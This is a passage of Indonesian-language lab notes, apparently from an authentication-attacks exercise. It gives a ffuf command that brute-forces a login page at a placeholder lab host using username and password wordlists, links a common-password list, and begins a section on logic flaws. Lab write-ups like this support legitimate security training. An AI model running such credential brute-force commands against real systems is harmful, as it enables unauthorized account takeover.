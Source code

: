 Menggunakan daftar username yang kita buat pada task sebelumnya, sekarang kita dapat menggunakan ini untuk mencoba serangan brute force pada halaman login (http://MACHINE_IP/customers/login).

`ffuf -w /path/to/list/valid/username.txt:W1,/path/to/wordlist/password.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`

- `W1` dan `W2` dalam `-w` adalah untuk menyatakan dua wordlist yang akan digunakan
- `-fc` adalah untuk mengecek HTTP status code selain dari 200

![](images/ss_04_4.png)

Untuk wordlist password, dapat ditemukan [disini](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt).

## Logic Flaw

### What is a Logic Flaw
Terkadang proses otentikasi mengandung kelemahan logika. Cacat logika adalah ketika jalur logis khas suatu aplikasi dilewati, dielakkan, atau dimanipulasi oleh peretas. 

![](images/logic%20flaw.png)
